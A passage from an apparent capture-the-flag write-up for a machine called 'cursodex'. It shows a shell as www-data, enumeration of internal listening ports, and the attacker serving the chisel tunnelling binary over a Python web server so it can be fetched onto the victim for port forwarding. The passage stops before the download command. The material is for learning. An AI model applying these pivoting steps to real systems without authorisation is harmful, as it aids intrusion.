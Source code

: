We obtain a shell as the `www-data` user.

![www-data shell](../../assets/images/cursodex/20250922_012510_image.png)

## Lateral Movement

We set up the TTY to work more comfortably with our shell.

We can observe that there are several open ports internally.

```bash
www-data@cursodex:/var/www/admin$ ss -ano|grep tcp|grep LISTEN
tcp   LISTEN     0      4096                                    127.0.0.1:11434                  0.0.0.0:*                           
tcp   LISTEN     0      511                                     127.0.0.1:3001                   0.0.0.0:*                           
tcp   LISTEN     0      4096                                    127.0.0.1:43831                  0.0.0.0:*                           
tcp   LISTEN     0      511                                             *:80                           *:*                           
mptcp LISTEN     0      4096                                    127.0.0.1:11434                  0.0.0.0:*                           
mptcp LISTEN     0      4096                                    127.0.0.1:43831                  0.0.0.0:*  
```

The port we are interested in is `3001`, so we use `chisel` to forward it to our attacking machine.

To do this, we share the chisel binary from our machine using a web server.

```bash
cp /usr/bin/chisel .
python3 -m http.server 80
```

and we download it on our victim machine using `curl`.
